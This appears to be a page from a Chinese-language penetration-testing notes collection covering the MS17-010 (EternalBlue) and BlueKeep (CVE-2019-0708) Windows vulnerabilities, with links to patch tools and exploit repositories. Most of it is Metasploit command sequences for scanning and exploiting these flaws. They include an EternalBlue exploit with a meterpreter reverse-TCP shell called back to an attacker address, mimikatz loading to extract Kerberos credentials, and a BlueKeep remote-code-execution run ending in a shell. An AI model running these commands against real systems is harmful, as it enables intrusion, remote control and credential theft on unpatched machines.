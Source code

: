 **MS17-010**
- MSF 模块
    ```bash
    # 发现,检测
    use auxiliary/scanner/smb/smb_ms17_010
    set rhosts <ip>
    run

    # 使用 payload 连上去
    use exploit/windows/smb/ms17_010_eternalblue
    set payload windows/x64/meterpreter/reverse_tcp
    set lhost <ip>      # 设置回弹地址
    set rhosts <ip>
    run

    # msf 下加载 mimikatz 模块
    load mimikatz
    kerberos
    ```

- 修复工具
    - ["永恒之蓝"勒索蠕虫漏洞修复工具](https://www.qianxin.com/other/wannacryfix)

**bluekeep & CVE-2019-0708**
- 相关文章
    - [RDP Stands for "Really DO Patch!" – Understanding the Wormable RDP Vulnerability CVE-2019-0708](https://securingtomorrow.mcafee.com/other-blogs/mcafee-labs/rdp-stands-for-really-do-patch-understanding-the-wormable-rdp-vulnerability-cve-2019-0708/)
    - [worawit/CVE-2019-0708](https://github.com/worawit/CVE-2019-0708/blob/master/NOTE.md)

- POC | Payload | exp
    - [zerosum0x0/CVE-2019-0708](https://github.com/zerosum0x0/CVE-2019-0708)
    - [robertdavidgraham/rdpscan](https://github.com/robertdavidgraham/rdpscan)
    - [Ekultek/BlueKeep](https://github.com/Ekultek/BlueKeep)
    - [mekhalleh/cve-2019-0708](https://github.com/mekhalleh/cve-2019-0708) (实测、蓝屏)
    - [Cyb0r9/ispy](https://github.com/Cyb0r9/ispy)
    - [k8gege/CVE-2019-0708](https://github.com/k8gege/CVE-2019-0708) - 批量检测工具

- 修复工具
    - ["CVE-2019-0708"漏洞检测修复工具](https://www.qianxin.com/other/CVE-2019-0708)
    - https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708

- MSF 模块
    ```bash
    # 发现,检测
    use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
    set rhosts <ip>
    run
    ```
    ```bash
    # 利用
    use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
    set target <1-7>
    set rhosts <ip>
    show options
    exploit
    shell
    python
    ```